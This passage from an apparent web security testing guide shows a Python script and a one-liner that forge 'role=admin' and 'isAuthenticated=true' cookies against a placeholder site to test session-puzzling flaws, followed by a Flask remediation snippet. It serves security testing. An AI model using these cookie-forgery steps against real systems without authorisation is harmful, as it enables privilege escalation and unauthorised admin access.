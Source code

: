      base_url = 'http://example.com'
     login_url = f'{base_url}/login'
     admin_url = f'{base_url}/admin-panel'

     # Log in as regular user
     session = requests.Session()
     login_data = {'username': 'test', 'password': 'Secure123'}
     response = session.post(login_url, data=login_data)
     session_cookie = session.cookies.get_dict()
     print(f"Session cookies: {session_cookie}")

     # Test role manipulation
     manipulated_cookies = session_cookie.copy()
     manipulated_cookies['role'] = 'admin'
     response = session.get(admin_url, cookies=manipulated_cookies)
     print(f"Role manipulation: Status={response.status_code}, Response={response.text[:100]}")
     if response.status_code == 200 and 'admin' in response.text.lower():
         print("Vulnerable: Role manipulation granted admin access")

     # Test authentication bypass
     bypass_cookies = session_cookie.copy()
     bypass_cookies['isAuthenticated'] = 'true'
     response = session.get(admin_url, cookies=bypass_cookies)
     print(f"Auth bypass: Status={response.status_code}, Response={response.text[:100]}")
     if response.status_code == 200 and 'admin' in response.text.lower():
         print("Vulnerable: Authentication bypass succeeded")
     ```
2. **Run Script**:
   - Execute:
     ```bash
     python3 test_session_puzzling.py
     ```
3. **Test Single Manipulation**:
   - Command:
     ```bash
     python3 -c "import requests; s=requests.Session(); s.post('http://example.com/login', data={'username': 'test', 'password': 'Secure123'}); r=s.get('http://example.com/admin-panel', cookies={'role': 'admin'}); print(r.status_code, r.text[:100])"
     ```
4. **Verify Findings**:
   - Vulnerable: Manipulated variables grant access.
   - Expected secure response: HTTP 403 or 401 for invalid variables.

**Remediation**:
- Secure session management:
  ```python
  from flask import Flask, session
  app = Flask(__name__)
  @app.get('/admin-panel')
  def admin_panel():
      if session.get('role') != 'admin' or not validate_session(session):
          return jsonify({'error': 'Unauthorized'}), 403
      return jsonify({'data': 'Admin Panel'})
  ```

**Tip**: Store script outputs in a text file or log (e.g., `python3 test_session_puzzling.py > output.txt`). Organize findings in a report with timestamps, test descriptions, and evidence of vulnerabilities (e.g., script outputs).